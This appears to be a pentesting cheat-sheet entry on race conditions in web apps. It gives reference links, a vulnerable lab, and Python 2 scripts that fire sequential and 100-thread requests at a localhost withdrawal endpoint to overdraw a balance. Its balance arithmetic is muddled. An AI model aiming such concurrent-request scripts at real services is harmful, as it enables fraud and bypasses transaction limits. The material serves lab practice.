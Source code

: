 ## Race Condition

Reference
```
https://defuse.ca/race-conditions-in-web-applications.htm
http://dann.com.br/php-winning-the-race-condition-vs-temporary-file-upload-alternative-way-to-easy_php-n1ctf2018/
```
Vulnerable Lab
```
https://github.com/doantranhoang/php-race-condition-example
```
Python Request
```
import requests

response=requests.get('http://localhost/race_the_web/?uid=1&amt=10')

print response.text

```
Multi Thread
```
import datetime
from threading import Thread

def intruder(i):
	for a in range(10):
		print "Thread #{} -> {} -  \r\n".format(i,a,datetime.datetime.now())

for i in range(10):
	t=Thread(target=intruder,args=(i,))
	t.start()
```
Normal 
 - 100 * 100 = 10000
 - 20000 - 10000 = 10000 left
```
import requests
for i in xrange(0,100):
	response=requests.get('http://localhost/race_the_web/?uid=1&amt=100')
	print response.text
```
Razor 
 - 100 * 100 threads = 10000 times 
 - 20000 - 10000 = 10400 left
```
import requests
from threading import Thread

def intruder(i):
	response=requests.get('http://localhost/race_the_web/?uid=1&amt=10')
	print "Thread #{} - {}".format(i,response.text)

for i in range(100):
	t=Thread(target=intruder,args=(i,))
	t.start()
```
